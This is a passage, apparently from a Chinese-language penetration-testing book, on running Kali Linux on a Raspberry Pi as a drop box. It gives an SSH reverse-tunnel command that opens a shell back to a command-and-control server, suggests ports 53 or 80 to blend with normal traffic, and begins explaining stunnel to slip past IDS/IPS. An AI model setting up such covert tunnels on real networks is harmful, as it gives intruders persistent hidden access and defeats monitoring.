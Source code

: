 要在您的树莓派上尝试不同的端口，请使用以下命令：

```
ssh -fN -R 443:localhost:22 root@192.168.162.133

```

在您的 C&C 中央服务器上，打开命令行终端并输入以下命令：

```
ssh root@localhost -p 443

```

您将被提示输入 Kali Linux 树莓派的 root 密码。您可以从最后一个命令行示例中看到，命令提示符已更改。我们现在在我们的远程服务器上，并且完全控制我们的树莓派，如下图所示：

![通过 SSH 进行反向 shell](img/6435OT_02_21.jpg)

### 注意

您需要确保 OpenSSH 服务器已安装并正在运行，否则此过程将失败。您很可能会看到连接被拒绝的错误消息。同样重要的是，您已经修改了启动变量，以便在重新启动后您的树莓派上运行 SSH。

这种技术称为反向 shell 隧道。选择任何端口作为您的源端口，例如端口`53`，这是 DNS 的相同端口，或端口`80`以使用 HTTP 的相同端口。重要的是要记住，更改端口号并不一定意味着您正在更改底层协议。

# Stunnel

许多管理员将使用 IDS/IPS 等检测技术来检测和阻止开放 VPN 连接。绕过这一点的一种方法是利用 stunnel。Stunnel 通过在另一个 SSL 封套中隐藏来创建 TCP 客户端和服务器之间的安全通信。这是通过使用行业标准的加密库（如 OpenSSL）在远程客户端和服务器之间充当 SSL 加密包装器来实现的。Stunnel 之所以很酷，是因为它为常用的守护进程（如 POP2、POP3 和 IMAP 服务器）添加了 SSL 功能，而无需更改程序代码。

要使用 stunnel，您首先需要使用`apt-get install stunnel4 –y`命令下载代码，如下图所示：

![Stunnel](img/6435OT_02_22.jpg)

您可能会收到 stunnel 的最新版本已经安装的消息。
